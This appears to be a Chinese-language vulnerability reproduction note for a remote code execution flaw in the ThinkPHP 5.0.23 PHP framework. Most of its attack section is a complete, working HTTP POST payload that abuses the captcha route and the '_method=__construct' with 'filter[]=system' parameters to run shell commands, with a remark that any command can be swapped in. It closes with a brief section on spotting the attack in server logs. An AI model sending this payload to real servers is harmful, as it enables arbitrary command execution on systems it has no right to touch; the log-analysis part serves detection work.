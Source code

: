 thinkphp5.0.23远程代码执行漏洞
--
### 前言
本文主要以官网下载的5.0.23 完整版(thinkphp_5.0.23_with_extend.zip)为例进行复现，不过好像现在官网没有提供5.0.23版本的下载，去其他地方下载也是一样的。

###  漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，在获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。

### 漏洞利用前提

版本：5.0.23


### 漏洞利用方法

利用很简单，发送payload如下：

```
POST /thinkphp5023/public/index.php/?s=captcha HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Connection: close
Referer: http://127.0.0.1/thinkphp5023/public/index.php/?s=captcha
Cookie: bdshare_firstime=1564113816358; PHPSESSID=c4705d096482050230446d56e749fb05
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

虽然会报错，但是命令也会成功执行

![](assets/poc.png)

想要执行其他命令只要替换server[REQUEST_METHOD]的值为其他命令就行

### 痕迹分析

查看http日志

![](assets/trace.png)

如果日志中有index.php?s=captcha 并且状态码为500的请求，我们就有利用怀疑是被入侵了。

### 参考

分析：http://0day5.com/archives/4550/
